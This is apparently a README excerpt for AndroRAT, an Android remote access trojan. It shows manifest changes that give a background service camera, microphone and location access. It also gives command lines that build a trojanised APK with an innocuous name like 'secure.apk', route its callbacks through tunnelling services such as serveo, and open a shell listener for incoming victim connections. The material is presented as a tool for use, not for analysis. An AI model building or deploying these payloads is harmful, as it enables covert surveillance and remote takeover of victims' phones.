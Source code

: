 ```xml
```

### Component Security
All Android components now have proper `android:exported` declarations:
```xml
<activity android:name=".MainActivity" android:exported="true">
<service android:name=".mainService" android:exported="false">
<receiver android:name=".broadcastReciever" android:exported="true">
```

## 📱 Modern Android Support

### Foreground Services
Services now specify proper types for Android 12+:
```xml
<service
    android:name=".mainService"
    android:foregroundServiceType="camera|microphone|location">
</service>
```

### Updated Dependencies
```gradle
dependencies {
    implementation 'androidx.appcompat:appcompat:1.6.1'
    implementation 'androidx.constraintlayout:constraintlayout:2.1.4'
    implementation 'eu.bolt:screenshotty:1.2.0'
    // ... other updated dependencies
}
```

## 🚀 Usage Examples

### CLI Mode with New Features
```bash
# Modern tunneling (no credit card required)
python3 androRAT.py --build --tunnel -p 8000 -o secure.apk

# Specific tunneling service
python3 androRAT.py --build --tunnel-service serveo -p 8080 -o app.apk

# Traditional manual IP (no tunneling)
python3 androRAT.py --build -i 192.168.1.100 -p 8000 -o local.apk

# Shell listener
python3 androRAT.py --shell -i 0.0.0.0 -p 8000
```

### GUI Mode
```bash
# Launch enhanced GUI
python3 androRAT_gui.py

# Or use launcher
python3 launcher.py --gui
```

